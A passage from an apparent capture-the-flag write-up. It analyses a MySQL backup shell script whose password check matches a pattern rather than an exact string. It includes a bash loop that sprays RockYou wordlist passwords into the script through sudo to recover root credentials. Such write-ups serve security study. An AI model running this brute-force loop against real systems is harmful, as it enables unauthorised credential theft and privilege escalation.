 ```bash
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Analyzing the script mysql-backup.sh, I observed that it reads the MySQL password from /root/.creds and compares it with the user input. Interestingly, the script checks for a password confirmation, and upon success, it proceeds to back up MySQL databases.

I attempted to exploit this script by spraying potential passwords from the RockYou wordlist. However, it appeared that the script stopped processing at a specific point twice, prompting further investigation. So, I research about the bash script issue and found an interesting information about [String comparison operators topic from this artical](https://opensource.com/article/19/10/programming-bash-logical-operators-shell-expansions). The bash script is not checking a password, but it's checking a pattern of the password.

```bash
#!/bin/bash

while IFS= read -r password; do
    if echo "$password" | sudo /opt/scripts/mysql-backup.sh; then
        echo "Correct password found: $password"
        exit 0
    else
        echo "$password"
    fi
done < rockyou.txt
```
